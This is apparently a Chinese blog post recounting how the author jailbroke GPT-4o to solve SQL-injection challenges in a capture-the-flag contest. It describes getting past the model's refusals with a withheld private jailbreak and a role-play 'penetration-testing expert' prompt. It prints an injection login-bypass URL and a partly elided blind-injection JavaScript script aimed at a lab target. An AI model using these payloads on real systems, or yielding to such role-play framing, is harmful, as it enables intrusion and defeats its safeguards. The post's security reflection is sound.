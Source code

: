 ```yaml
---
title: 如果将大模型用于黑客攻击？
date: 2024-08-17 19:22:00
type: post
blog: true
description: 近被好友拉去参加一个类似 CTF 的理论加实践竞赛，期间发现 gpt 在这种场合出奇的强大。
tags:
    - LLM
    - 黑客攻击
    - 安全
    - 大模型越狱
---
```


楔子
--

  

黑客是指充满好奇和探索精神，具备进入别人系统能力，但却不用于非法的群体，他们可以是[白帽子](https://zhida.zhihu.com/search?q=%E7%99%BD%E5%B8%BD%E5%AD%90&zhida_source=entity&is_preview=1)、渗透测试安全员等技术爱好者；而[骇客](https://zhida.zhihu.com/search?q=%E9%AA%87%E5%AE%A2&zhida_source=entity&is_preview=1)指将技术用于获取非法信息，以此牟利。由于媒体传播原因，通常使用黑客来描述后者。本文的黑客指在合法授权下的技术群体。

笔者并非专业安全人员，但最近被好友拉去参加一个类似 CTF 的理论加实践竞赛，期间发现 gpt 在这种场合出奇的强大 。我们的赛事理论是攻防安全知识，实践则是靶机夺旗赛。三人一组，实践 10 道题目，[开卷考试](https://zhida.zhihu.com/search?q=%E5%BC%80%E5%8D%B7%E8%80%83%E8%AF%95&zhida_source=entity&is_preview=1)，一周时间。笔者本身是并未关注过这个比赛，本着不好意思拒绝，被拉去凑人数的心理参加了。但直到临近还有两天结束的周五下班时刻，被队员安利周末一起看题目。由于个人周六有私事，就准备在公司吃饭后做题，打开系统发现我们队（队员大多都不是安全相关的同学）还没有拿到任何一个 flag（攻破）。

基于 LLM 发起黑客攻击
-------------

对于生活和工作离不开 gpt 的我而言，第一时间测试了 gpt4o 和 sonnet3.5，毫无悬念，询问任何向目标网站发起 SQL 注入到方案和实施细节的时候，全部都是拒绝了。

尝试了网传最新版本的 DAN 越狱提示词，也失效。为了能加速拿到 flag 的效率，顺利通关，对个人私藏未公开一个越狱方式稍加修改，竟然成功让 gpt4o 在内的模型能协助发起攻击。最终结果是没有利用任何暴破工具下，快速解答 3 题目，到周日再解答4题（剩下的未继续解答了，已达到了入围条件），一个人把大多数系统都突破了，最终成功入围决赛。

说实话，我也惊呆了，毕竟我从未参加过这类比赛，也不懂任何答题套路。从题目来看，大多是日常漏洞，但对一个非专业安全而言，还是有一定准入门槛和成本。基于大模型，成本几乎降低到有手就行。

我举一个典型的渗透测试题目：SQL 注入。

题目大概是这样的:

_名称: 猜猜有什么[注入漏洞](https://zhida.zhihu.com/search?q=%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E&zhida_source=entity&is_preview=1)_

_靶机目标: xxx ip port。_

打开目标ip 和端口，是一个登陆网页。随机测试登陆会失败。这个题目很明显，就是如何通过 [sql注入](https://zhida.zhihu.com/search?q=sql%E6%B3%A8%E5%85%A5&zhida_source=entity&is_preview=1)，进入到别人的数据库，拿到 flag 信息。

大多数人应该可以通过搜索引擎查询如何拼接方案。

```
http://172.21.148.2:10031/login?username=admin&password=anything%27%20OR%20%271%27=%271
```

上面是大模型直接拼接返回的一个 url ，无需网络查询和自己动手，发起请求后，一次性返回 login successfull 。但没跳转，接下来我应该怎么做？怎么样才能拿到数据库信息？

我能想得到是测试各种注入到 SQL 拼接进 URL，做体力活了。我让 gpt4o 返回了几个测试查询数据库和表的 SQL 进行拼接，复制黏贴到浏览器请求，但似乎都是 500 失败。

这个时候，其实有一定难度和门槛了，假设让我网上搜索各种资料，只能到这一步，且时间只会更久。

接下来，进入高级时刻，提示词开始 pua gpt4o，让他模拟充当一个渗透测试专家，使用更高级的注入方案。  

瞬间，gpt4o 生成了两个几百行的 js 脚本（我在浏览器内测试的），里面解释分别是布尔盲注和时间盲注，目标靶机等信息全部在，我复制其中一个直接粘贴到控制台。

```
const baseUrl = 'http://172.xx.xx.2:10031/login';const basePasswordPayload = "anything' OR '1'='1";const expectedResult = 'Login successful!';// 布尔盲注函数async function booleanBlind(payload, expectedResult) {const fullPayload = \`username=${encodeURIComponent(payload)}&password=${encodeURIComponent(basePasswordPayload)}\`;try {const response = await fetch(baseUrl, {method: 'POST',headers: {'Content-Type': 'application/x-www-form-urlencoded'},body: fullPayload});const result = await response.text();return result.includes(expectedResult);} catch (error) {console.error(\`Error:\`, error);return false;}}// 查找所有列名（逐字逐字符）async function findAllColumnNames(tableName) {let columnNames = \[\];let columnIndex = 0;while (true) {let columnName = '';for (let i = 1; i <= 32; i++) { // 假设列名最长为32个字符已省略细节}}if (!found) break;}if (columnName) {columnNames.push(columnName);console.log(\`Found column: ${columnName}\`);columnIndex++;} else {break;}}return columnNames;}// 查找flag值（逐字逐字符）async function findFlagValue(tableName, columnName) {let flagValue = '';for (let i = 1; i <= 64; i++) { // 假设flag值最长为64个字符 省略了细节}if (!found) break;}console.log(\`Flag Value: ${flagValue}\`);return flagValue;}// 运行程序(async () => {const tableName = 'flag_table';const columnNames = await findAllColumnNames(tableName);for (const columnName of columnNames) {const flagValue = await findFlagValue(tableName, columnName);console.log(\`Column: ${columnName}, Value: ${flagValue}\`);}})();
```

好家伙，批量发起了 http 请求，并自动解析响应判断和打印字符，大概请求了几百次，不到一分钟，基于布尔盲注在控制台打印出来了数据库名。

接下来，继续让 gpt 用同样的方法，给注入查询表名的 js 脚本，又一次性成功，拿到表名，最后再次让生成注入查表内信息脚本，看到了 flag 信息。

整个过程，零手写代码编写，全程自然语言，没有任何专业的注入工具，仅在一个浏览器里完成。

到此刻我已经震惊了，也感到非常的兴奋。接下来的时间，其他的渗透测试题也是用这样的方案逐一攻破的。

攻防博弈升级
------

在没有大模型之前，黑客有一定准入门槛。他必须熟悉计算机基础知识，了解网络安全，即懂防也懂攻的技术套路。这些知识兼具广度和深度，让成为一名黑客所需要的学习成本相对较高。

然而顶级的大模型，学习吸纳了公开领域几乎所有的计算机和安全知识，能通过自然语言，轻而易举的构造各种高级的攻击手法，这极大降低了攻击成本。去年 [chatgpt](https://zhida.zhihu.com/search?q=chatgpt&zhida_source=entity&is_preview=1) 出现后，就被曝出大量用于非法网络攻击，极大降低了门槛，但这次经历让我有了个人的体验。虽然大模型在微调阶段会做大量安全对齐，以防止非法使用，但从去年到今年截止目前，绕过大模型的“越狱”策略一直有，网传的 DAN 提示词，都已经更新到13个版本了，还有其他各种绕过安全道德限制的提示词，加上还有各种开源未安全对齐的模型，完全杜绝大模型进入非法攻击是几乎不可能。

那是否意味着大模型增加了整个网络体系则不安全性呢？并非如此。大模型在让攻击变得更加容易的同时，反过来也让防御变得更加的简单。现在有越来越多的软件系统是由大模型生成的代码，以及大模型协助 SDL 安全设计。也就是即使是新手，也能在大模型的加持下设计出更安全的软件系统。由于大模型普遍对攻击内容做了限制，但防御却是完整支持的，这让使用主流的大模型进行防御变得更轻松。

软件安全中，人是最核心要素，也不是最不安全的要素，人工智能的出现，仅仅只是扩大了双方的势力。攻防博弈并不会因为大模型而产生根本性变化，始终存在，也不会消亡。

结
-

上面的全部操作都是在合规合法的内部渗透测试中进行，无任何恶意行为。

本文不分享任何绕过道德限制的越狱提示词，也不会对具体的渗透测试进行讲解。任何想要发起渗透测试的同学，请在合规合法的前提下进行。